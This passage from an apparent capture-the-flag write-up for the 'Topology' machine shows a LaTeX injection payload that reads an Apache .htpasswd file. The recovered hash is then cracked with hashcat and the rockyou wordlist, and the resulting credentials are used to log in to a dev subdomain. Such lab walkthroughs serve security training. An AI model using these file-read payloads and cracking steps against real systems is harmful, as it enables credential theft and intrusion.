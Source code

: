```
<SNIP>
1 of 1 target completed, 0 valid password found
<SNIP>
```

It failed.

#### LFI

We know that the web server is Apache, and Apache uses `.htpasswd` file to
handle HTTP authentication. Therefore, there should be a `.htpasswd` file in
`/var/www/dev` containing credentials for this subdomain!

Let's retrieve them using the LFI we identified with the payload
`$\lstinputlisting{/var/www/dev/.htpasswd}$`:

![Latex subdomain equation lfi /var/www/dev/.htpasswd](latex-subdomain-equation-lfi-dev-subdomain-auth.png)

We find credentials for `vdaisley`! The password is hashed though:
`$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0`. I'll place it in a `apache.hash` file.

#### Hash cracking

Let's try to crack this hash using `hashcat` with the `rockyou.txt` wordlist.

```sh
❯ hashcat -m "1600" "/workspace/apache.hash" -a "0" "/usr/share/wordlists/rockyou.txt"
```

```
<SNIP>
$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0:calculus20
<SNIP>
```

`vdaisley`'s hash corresponds to the `calculus20` password!

#### Exploration

Let's head back to the `dev.topology.htb` subdomain, and use the credentials we
just discovered to authenticate.
